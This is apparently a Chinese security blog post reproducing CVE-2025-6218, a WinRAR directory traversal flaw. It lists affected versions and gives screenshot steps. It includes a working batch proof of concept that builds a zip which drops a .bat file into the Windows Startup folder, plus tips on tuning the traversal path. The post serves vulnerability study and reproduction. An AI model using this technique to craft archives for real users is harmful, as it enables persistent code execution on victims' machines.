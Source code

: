> **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486079&idx=2&sn=b06c26e63d5694cb6383efb350fb9f34

#  【漏洞复现】CVE-2025-6218｜WinRAR目录遍历远程代码执行漏洞  
原创 alicy  信安百科   2025-07-13 12:02  
  
**0x00 前言**  
  
  
WinRAR 是一款功能强大的压缩包管理器，它是档案工具RAR在 Windows环境下的图形界面。  
  
该软件可用于备份数据，缩减电子邮件附件的大小，解压缩从 Internet 上下载的RAR、ZIP及其它类型文件，并且可以新建 RAR 及 ZIP 格式等的压缩类文件。  
  
从5.60版开始，WinRAR启用了新的图标，但用户仍可以通过官网提供的主题包换回原版风格的图标。  
  
  
  
**0x01 漏洞描述**  
  
  
漏洞的根本原因在于WinRAR对文件路径的处理不当，恶意构造的文件路径可能导致进程访问不该访问的目录，从而在当前用户上下文中执行恶意代码。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-6218  
  
  
  
**0x03 影响版本**  
  
  
WinRAR ≤ 7.11  
  
  
  
**0x04 漏洞复现**  
  
  
1、下载安装winrar（版本  
≤ 7.11  
）  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtoTvS4gsrgJgPibpszy6fmfT1f4V4syDiabzZR2UKfJl2w5hpU6yRLI30w/640?wx_fmt=png&from=appmsg "")  
  
  
2、使用  
CVE-2025-6218的  
POC生成恶意压缩包文件  
  
  
POC：  
  
https://github.com/skimask1690/CVE-2025-6218-POC  
  
  
批处理文件内容如下：  

```
@echo off
title CVE-2025-6218 POC


echo calc.exe > POC.bat


&#34;C:\Program Files\WinRAR\WinRAR.exe&#34; a -ap&#34; \.. \.. \AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\&#34;  CVE-2025-6218.zip POC.bat


echo.
if errorlevel 1 (
    echo [!] Failed to create POC.
) else (
    echo [+] CVE-2025-6218.zip created successfully!
)
echo.


del POC.bat


pause
```

  
  
注意：  

```
&#34; \.. \.. \AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\&#34;
中的\.. \.. \根据当前bat的目录位置决定增加还是减少
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhto9yplgfq9dvlUozBvE4PBkvb2gPd6ic3uC9uLCiaHpzHGn5fpO8OfYaYA/640?wx_fmt=png&from=appmsg "")  
  
  
3、右键解压缩恶意文件到目录时，触发目录跳转。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtokBe8VXw88ic9iarmhZrsgLr2jDHLUc03XntllbMR5A0VaSXjokgFH17g/640?wx_fmt=png&from=appmsg "")  
  
  
4、启动目录成功看到恶意的bat文件  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtoiaNwbibCsgKySibCCUZqc4azZgrBpibY31J0QaQKKy11t3CVLqn6myK7wg/640?wx_fmt=png&from=appmsg "")  
  
  
5、重启系统之后可以看到恶意bat文件成功执行。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urBcuan8AGZnEouauEBWhtobNjwxDePD3jibp64hhtcn0DQRvGfmFZAAMX7hDw3vthk0ib7Zgx4h9yw/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://www.zerodayinitiative.com/advisories/ZDI-25-409/  
  
  
  
  
推荐阅读：  
  
  
[CVE-2025-6218｜WinRAR目录遍历远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486063&idx=2&sn=a3d57d6619d987a8d64a725f1bc82373&scene=21#wechat_redirect)  
  
  
  
[【漏洞复现】CVE-2023-38831 WinRAR代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484513&idx=1&sn=0fc004e592088c252a8a6ebfc33c3ea0&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-49113｜Roundcube Webmail反序列化漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485975&idx=1&sn=a3a96fcfeca034089636e9a89ae83d48&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
  
